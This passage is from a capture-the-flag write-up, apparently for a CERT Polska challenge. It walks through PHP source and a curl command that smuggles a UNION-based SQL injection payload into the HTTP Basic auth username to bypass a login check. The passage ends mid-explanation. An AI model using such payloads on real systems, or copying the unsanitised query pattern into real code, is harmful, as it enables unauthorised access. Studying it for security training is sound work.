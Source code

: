 ```php
    if(count($data) == 0) {
        print('<h3>메시지 없음</h3>');
    } else {
        print '<h3>여기에 당신을위한 메시지가 있습니다.:</h3>';

        foreach($data as $row) {
            print "<p>- {$row['message']}</p>";
        }
    }
```


Ok, that SQL Injection payload might look complicated, let's take a look at it little bit closer:
First, full ```curl`` command:


```
$ curl --verbose --user-agent "hackerone.com/bl4de" --header "X-Forwarded-For: 175.45.176.100" --user "name' or '1'='2' UNION SELECT 'anyone','5f4dcc3b5aa765d61d8327deb882cf99'--":password  http://ecsm2017.cert.pl:6044/index.php/instructions
```

Now, SQLi payload:

```
--user "name' or '1'='2' UNION SELECT 'anyone','5f4dcc3b5aa765d61d8327deb882cf99'--":password
```

Ok, so first we pass always false condition to not allow database returns existing username, even if we correctly guess one, because we do not know password. Then, using ```UNION``` clause, we inject our own fake username, together with MD5 hash of password which we know as well, because we are passing it as well (payload above is injectet into ```curl``` --user username:password syntax, which allows to send credentials for HTTP Basic authorization).

Now, let's see how SQL query in PHP code will look like. First, original query:

```php
$result = $db->query("select message from instructions where login = '{$data[0]['login']}'");
```

And with our payload, which will be put as ```{$data[0]['login']}```:

```php
$result = $db->query("select message from instructions where login = 'name' or '1'='2' UNION SELECT 'anyone','5f4dcc3b5aa765d61d8327deb882cf99'--'");
```

This query will return result contains username and password, which satisfy all conditions and finally we will land here:

```php
    foreach($data as $row) {
        print "<p>- {$row['message']}</p>";
    }

```

Ok, so ```{$row['message']}``` contains final solution. But it's empty. And it's empty, because even if we successfuly expolited all vulnerabilities, we still need __existing__ username, because only then we get real results from this fragment:

